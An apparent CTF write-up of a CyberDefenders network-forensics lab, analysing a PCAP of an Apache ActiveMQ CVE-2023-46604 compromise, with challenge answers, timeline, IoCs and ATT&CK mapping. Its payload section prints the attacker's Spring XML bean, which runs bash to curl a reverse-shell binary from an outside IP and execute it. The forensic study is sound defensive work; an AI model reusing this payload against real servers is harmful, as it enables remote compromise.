










# Apache ActiveMQ Remote Code Execution - CVE-2023-46604 (OpenWire) PCAP Analysis

| Field | Value |
|---|---|
| Date | 06-06-2026 |
| Platform | CyberDefenders |
| Category | Network Forensics |
| Difficulty | Medium |
| ATT&CK TTPs | T1190 · T1059.004 · T1105 · T1071.001 · T1204.002 |
| Tools Used | Wireshark · shasum · file · VirusTotal |
| Time Spent | 1 hour 18 minutes |

---

## Executive Summary

On 2023-12-12 at approximately 13:38 UTC, a public-facing Linux Apache server 
at `134.209.197.3` was compromised via CVE-2023-46604 - a critical Remote
Code Execution vulnerability in Apache ActiveMQ's OpenWire protocol. 
The attacker at `146.190.21.92` sent a malicious OpenWire
ClassInfo command to the server's ActiveMQ broker on port 61616, causing
the server to fetch a crafted Spring XML file (`invoice.xml`) that invoked
`java.lang.ProcessBuilder` to execute arbitrary bash commands. Those
commands downloaded a reverse shell trojan named `docker` from a second
attacker-controlled server (`128.199.52.72`), executed it, and established
a persistent encrypted C2 session back to `146.190.21.92:443`.

---

## Artifacts / Environment

**File provided:**
- `c119-OpenWire.pcap` - 4.8 MB (Network packet capture)

**Environment (from PCAP analysis):**
- Victim server: `134.209.197.3` - public-facing Linux server running Apache ActiveMQ
- Primary attacker: `146.190.21.92` - C2 server and exploit origin
- Secondary attacker: `128.199.52.72` - payload delivery server
- Third observed IP: `84.239.49.16` - minor TLS connections, post-exploitation

---

## Scope

**Challenge questions:**
1. What is the IP of the C2 server that communicated with the victim?
2. What is the port number of the service the adversary exploited?
3. What is the name of the vulnerable service?
4. What is the IP of the second C2 server?
5. What is the name of the reverse shell executable dropped on the server?
6. What Java class was invoked by the XML file to run the exploit?
7. What is the CVE identifier associated with the vulnerability?
8. In which Java class and method was the validation step added by the vendor?

**Hypotheses before investigation:**

- **Hypothesis 1:** The server was infected by malware which could have
  been activated through email phishing or a web exploit. *(Partially
  confirmed — the initial access was an exploit against a public-facing
  service, not phishing. The delivery mechanism was a network-level CVE
  exploit, not user interaction.)*

- **Hypothesis 2:** The server was compromised and is communicating with
  external C2 servers. *(Confirmed - two distinct C2 servers identified.)*

- **Hypothesis 3:** C2 traffic is likely TLS-encrypted on non-standard
  ports to evade port-based filtering. *(Partially confirmed - C2 runs on
  port 443 which is standard for HTTPS but used here as a reverse shell
  channel disguised as normal web traffic.)*

- **Hypothesis 4:** Sensitive data has been exfiltrated after C2 connection
  was established. *(Not confirmed from this PCAP - there was 
  active C2 communication but exfiltration of specific data could not be
  confirmed from network traffic alone since it is encrypted.)*

- **Hypothesis 5:** There is a second-stage payload and reverse shell
  activity for lateral movement. *(Confirmed - a reverse shell trojan
  named `docker` was downloaded and executed as the second-stage payload.)*

---

## Investigation

### Step 1 - Initial Triage (Protocol Hierarchy)

**Why:** Before applying any filter, get a top-level map of what protocols
are present to understand the character of this infection.

```
Statistics → Protocol Hierarchy
```



**Findings:**
- Total packets: 4,889
- TCP: 100% of traffic - pure TCP, no UDP noise
- TLS: 34.5% of packets (1,687) but **92.7% of bytes (4.56 MB)** - the
  disproportionate bytes-to-packets ratio signals a large sustained
  encrypted session (the reverse shell C2 channel)
- **OpenWire: 2 packets** - this is the actual CVE exploit traffic, tiny
  in volume but the root cause of the entire incident
- HTTP: 0.1% - 6 packets only, but as seen in OskiStealer, low HTTP
  packet count with specific payloads is always worth full investigation
- XML: 2 packets under HTTP - the malicious Spring XML file

**Interpretation:** The Protocol Hierarchy immediately told two things
before any filter was applied:

The TLS 92.7% byte dominance points to a large encrypted session - a
reverse shell or data transfer channel. The 2 OpenWire packets are
disproportionately small but significant - this protocol appearing at all
on a network traffic capture of a server that is also talking to external
IPs is the critical anomaly. OpenWire on port 61616 is the Apache ActiveMQ
broker protocol. A remote connection to that port from an external IP is
unexpected and worth investigating first.

---

### Step 2 - Conversation Analysis (Network Conversations)

**Why:** Identify all communicating parties, connection volumes, and which
IP dominates the traffic before applying any filters.

```
Statistics → Conversations → IPv4 tab then TCP tab
```





**Findings:**

IPv4 conversations showed three external IPs communicating with the
victim `134.209.197.3`:

- `146.190.21.92` ↔ `134.209.197.3` - **4,867 packets, 5 MB** - dominant
- `84.239.49.16` ↔ `134.209.197.3` - 12 packets, 712 bytes - minor
- `128.199.52.72` ↔ `134.209.197.3` - 10 packets, 1 kB - small but specific

TCP conversations revealed the exact ports and their purpose:

- `134.209.197.3:43400` ↔ `146.190.21.92:443` - 4,833 packets, **5 MB**
  - this is the reverse shell C2 session
- `134.209.197.3:49764` ↔ `146.190.21.92:8000` - GET `/invoice.xml`
- `134.209.197.3:49750` ↔ `146.190.21.92:8000` - GET `/invoice.xml`
- `146.190.21.92:47284` ↔ `134.209.197.3:61616` - **OpenWire exploit
  connection** - attacker initiated this, hitting ActiveMQ's default port
- `134.209.197.3:46158` ↔ `128.199.52.72:80` - GET `/docker` - payload
  download from the second attacker server

**Interpretation:** The conversation table maps the entire attack chain
visually before a single packet is read. The attacker connected to port
61616 on the victim (exploit delivery). The victim then fetched
`/invoice.xml` from the attacker's HTTP server on port 8000 (exploit
execution - the victim was tricked into pulling the payload). The victim
then fetched `/docker` from a separate IP (second-stage payload download).
Finally the victim opened a large encrypted session to `146.190.21.92:443`
- the reverse shell phoning home.

---

### Finding: OpenWire Exploit - Initial Access on Port 61616

**Why:** The conversation table showed the attacker initiating a connection
to port 61616 - Apache ActiveMQ's OpenWire protocol port. This is the
initial access point. CVE-2023-46604 abuses this exact port.

**Filter used:**
```
(http.request or tls.handshake.type eq 1 or
(tcp.flags.syn eq 1 and tcp.flags.ack eq 0))
and !(ssdp)
```



**Findings:** The filtered view shows the attack timeline clearly:

```
2023-12-12 13:38:27Z  146.190.21.92:47284 → 134.209.197.3:61616  [SYN]
2023-12-12 13:38:28Z  134.209.197.3 → 146.190.21.92:8000       GET /invoice.xml
2023-12-12 13:38:28Z  134.209.197.3 → 128.199.52.72:80           GET /docker
```

**Interpretation:** The sequence is unambiguous. The attacker connected to
port 61616 at 13:38:27Z. One second later, the compromised server is making
outbound HTTP requests first to fetch the malicious XML file from the
attacker, then to download the reverse shell binary from a separate server.
This is the hallmark of the CVE-2023-46604: the compromised server is manipulated
into reaching out to the attacker's infrastructure, not the other way
around.

---

### Finding: Malicious XML Payload Reveals Full Attack Command

**Why:** The victim fetched `/invoice.xml` from the attacker's HTTP server.
Following this stream reveals exactly what commands were executed on the
victim's machine.

```
Filter: http.request
Right-click GET /invoice.xml → Follow → TCP Stream
```





**Findings:** The response to the `GET /invoice.xml` request returned a
Java Spring Framework XML bean definition file served by a Python SimpleHTTP
server (`Server: SimpleHTTP/0.6 Python/3.8.10`):

```xml
<beans xmlns="http://www.springframework.org/schema/beans">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>curl -s -o /tmp/docker http://128.199.52.72/docker;
               chmod +x /tmp/docker;
               ./tmp/docker</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

**Interpretation:** This XML weaponises Spring's `java.lang.ProcessBuilder` class - This is the answer to Question 6. When this XML is loaded by the compromised
ActiveMQ server as a ClassPathXmlApplicationContext, Spring instantiates
`ProcessBuilder` with the provided arguments and calls its `start` method
via `init-method="start"`. This executes bash with the `-c` flag, running
a three-command chain:

**Command 1:** `curl -s -o /tmp/docker http://128.199.52.72/docker`
Downloadsthe reverse shell binary silently (`-s`) and saves it to `/tmp/docker`.

**Command 2:** `chmod +x /tmp/docker`
Makes the downloaded binary executable.

**Command 3:** `./tmp/docker`
Executes the reverse shell immediately.

The file was served by a Python HTTP server - a simple, fast staging
infrastructure chosen for its minimal setup requirements and absence of
unusual network signatures.

---

### Finding: Reverse Shell Binary Identified (docker)

**Why:** The victim downloaded a file named `docker` from `128.199.52.72:80`.
The name is deliberate - `docker` is a common legitimate binary on Linux
servers, making this an effective masquerading technique (T1036).

**SHA256 hash computed:**

```bash
shasum -a 256 docker
```



```
bb9af7d0d210754cbb6323cde3dbfbc38d666739472a9abd2d99d99dda50b84d  docker
```

```bash
file docker
```

```
docker: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
statically linked, no section header
```

**Key observations from the `file` output:**
- **ELF 64-bit** - Linux executable, consistent with the Linux server target
- **Statically linked** - all libraries compiled in, no external dependencies
  required. This means the binary runs on any Linux x86-64 system regardless
  of installed libraries. Malware authors choose static linking for maximum
  portability and to avoid dependency errors on target systems
- **No section header** - the section header table has been stripped. This
  is a deliberate anti-analysis technique - disassemblers rely on section
  headers to navigate binaries. Stripping them does not affect execution
  but hinders static analysis tools

**VirusTotal result:**



- 42 out of 65 security vendors flagged this hash as malicious
- Popular threat label: `trojan.shellcode/connectback`
- Family labels: `shellcode`, `connectback`

The `connectback` family label confirms this is a reverse shell. It
connects back to the attacker's server rather than listening for incoming
connections, which bypasses ingress firewall rules that block inbound
connections while permitting established outbound traffic.

---

### Finding: CVE-2023-46604 - The Root Cause

**Why:** Understanding the CVE explains why the victim server fetched
the malicious XML file - the exploit manipulates ActiveMQ's deserialization
mechanism to load a remote ClassPathXmlApplicationContext.

**CVE-2023-46604 - Apache ActiveMQ Remote Code Execution**



- **CVSS Score:** 10.0 (Critical - maximum severity)
- **Published:** 27 October 2023
- **Affected component:** Apache ActiveMQ OpenWire protocol broker

The vulnerability exists in the OpenWire protocol's `ExceptionResponse`
handler. The attacker sends a specially crafted `ClassInfo` command to
the broker on port 61616. The broker deserialises the command and attempts
to instantiate a Java class from an attacker-controlled URL - in this case
`invoice.xml` hosted on `146.190.21.92:8000`. The broker fetches and loads
the XML as a Spring ClassPathXmlApplicationContext, which processes the
bean definitions and executes `ProcessBuilder` with the attacker's commands.

---

### Finding: The Vendor Patch - BaseDataStreamMarshaller.createThrowable

**Why:** The challenge asks which Java class and method the vendor fixed.
This required clicking the link under the challenge. The link open up a github repo and vendor's fix for the class and method.



**Findings:** The vendor's fix was applied to the `createThrowable` method
in `BaseDataStreamMarshaller` class. The patch added a validation step to
verify that the class name provided in the OpenWire message is a subclass
of `Throwable` before instantiating it. The original code called
`Class.forName(className, false, ...)` with no type restriction - the
attacker could pass any class name, including non-exception classes like
Spring application contexts. After the patch, the method validates that
the resolved class is a `Throwable` subclass, preventing instantiation of
arbitrary classes.

**Answer to Question 8:** `BaseDataStreamMarshaller.createThrowable`

---

## Challenge Answers

| Q | Question | Answer |
|---|---|---|
| Q1 | IP of C2 server that communicated with victim | `146.190.21.92` |
| Q2 | Port number of the exploited service | `61616` |
| Q3 | Name of the vulnerable service | `Apache ActiveMQ` |
| Q4 | IP of the second C2 server | `128.199.52.72` |
| Q5 | Name of reverse shell executable dropped on server | `docker` |
| Q6 | Java class invoked by the XML file to run the exploit | `java.lang.ProcessBuilder` |
| Q7 | CVE identifier | `CVE-2023-46604` |
| Q8 | Java class and method where validation step was added | `BaseDataStreamMarshaller.createThrowable` |

---

## Timeline of Events

| Timestamp (UTC) | Event | Source | ATT&CK TTP |
|---|---|---|---|
| 2023-12-12 13:38:27 | Attacker (`146.190.21.92:47284`) connects to victim's ActiveMQ port 61616 | PCAP TCP SYN | T1190 |
| 2023-12-12 13:38:28 | CVE-2023-46604 exploit delivered via OpenWire ClassInfo command | PCAP OpenWire | T1190 |
| 2023-12-12 13:38:28 | Victim fetches `invoice.xml` from `146.190.21.92:8000` (Spring XML payload)| PCAP HTTP | T1105 |
| 2023-12-12 13:38:28 | Spring `java.lang.ProcessBuilder` executes bash command chain | XML payload | T1059.004 |
| 2023-12-12 13:38:28 | Victim fetches `docker` ELF binary from `128.199.52.72:80` | PCAP HTTP | T1105 |
| 2023-12-12 13:38:28 | `docker` binary written to `/tmp/docker`, `chmod +x` applied | XML command | T1204.002 |
| 2023-12-12 13:38:28 | `docker` reverse shell executes and connects back to `146.190.21.92:443` | PCAP TLS | T1071.001 |
| 2023-12-12 13:41:43 | Additional TLS connections from `84.239.49.16` to victim on port 443 | PCAP TLS | - |

---

## Indicators of Compromise (IoCs)

| Type | Value | Context |
|---|---|---|
| IP | `146.190.21.92` | Primary attacker - exploit origin, XML host, C2 reverse shell |
| IP | `128.199.52.72` | Secondary attacker - reverse shell binary delivery server |
| Port | `61616` | Apache ActiveMQ OpenWire - exploited entry point |
| URL | `http://146.190.21.92:8000/invoice.xml` | Malicious Spring XML payload URL  |
| URL| `http://128.199.52.72/docker` | Reverse shell binary download URL |
| File | `docker` | ELF 64-bit reverse shell trojan - `/tmp/docker` on victim |
| SHA256 | `bb9af7d0d210754cbb6323cde3dbfbc38d666739472a9abd2d99d99dda50b84d` | Hash of `docker` binary - 42 out of 65 detections on VirusTotal |
| Class | `java.lang.ProcessBuilder` | Java class abused by malicious XML to execute OS commands |
| CVE | `CVE-2023-46604` | Apache ActiveMQ RCE - CVSS 10.0 |

---

## ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Observed Behaviour |
|---|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application | CVE-2023-46604 exploited against Apache ActiveMQ on port 61616 |
| Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell | Spring ProcessBuilder executed bash to download and run payload |
| C&C | T1105 | Ingress Tool Transfer | `invoice.xml` and `docker` binary fetched from attacker servers |
| Defense Evasion | T1204.002 | User Execution: Malicious File | `docker` binary named to masquerade as legitimate Linux tool |
| C&C | T1071.001 | Application Layer Protocol: Web Protocols | Reverse shell C2 session over HTTPS port 443 |

---

## Lessons Learned

1. **The CVE number and the vulnerability class are the most important
   findings in this investigation.** CVE-2023-46604 means any
   unpatched Apache ActiveMQ instance exposed to the internet on port 61616
   is fully compromisable without any user interaction. No phishing, no
   credentials - just a network connection and a crafted packet. Public-
   facing services must be inventoried, version-checked, and patched
   against known CVEs as a continuous process, not a periodic one.

2. **The Protocol Hierarchy bytes-to-packets ratio is a fast triage
   signal for sustained C2 sessions.** TLS at 34.5% of packets but 92.7%
   of bytes flagged the large reverse shell session before any filter was
   applied. Disproportionate bytes in a low-packet-count protocol always
   indicates bulk transfer - either exfiltration or an active command
   channel.

3. **Naming a malicious binary after a legitimate system tool
   (`docker`) is a deliberate masquerading technique (T1036).** On any
   Linux server running containerised workloads, `docker` appearing in a
   process list looks normal. Detection must be based on the binary's
   origin path (`/tmp/docker` vs `/usr/bin/docker`), file hash, and whether
   it appeared after a suspicious download event - not the name alone.

4. **Hypothesis 1 (email phishing as infection vector) was wrong.** The
   actual initial access was a network-level exploit against a public
   service. This reinforces that pre-investigation hypotheses are starting
   points, not conclusions. The hypothesis was revised the moment the
   OpenWire packets appeared in the Protocol Hierarchy - a protocol with
   no expected presence in a PCAP became the primary investigation focus.

5. **Following the HTTP stream is always necessary even when HTTP is
   a tiny fraction of traffic.** HTTP was 0.1% of this PCAP - 6 packets.
   Those 6 packets contained the entire attack payload, the command chain,
   the second C2 address, and the malware filename. Volume does not indicate
   importance in network forensics.

---

## References

- CyberDefenders OpenWire Lab:
  [cyberdefenders.org/blueteam-ctf-challenges/openwire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire)
- CVE-2023-46604 NVD Detail:
  [nvd.nist.gov/vuln/detail/CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)
- VirusTotal - docker binary:
  [virustotal.com](https://www.virustotal.com)
- Apache ActiveMQ security advisory:
  [activemq.apache.org/security-advisories](https://activemq.apache.org/security-advisories.html)
- MITRE ATT&CK techniques:
  - [T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
  - [T1059.004 - Unix Shell](https://attack.mitre.org/techniques/T1059/004/)
  - [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
  - [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
  - [T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)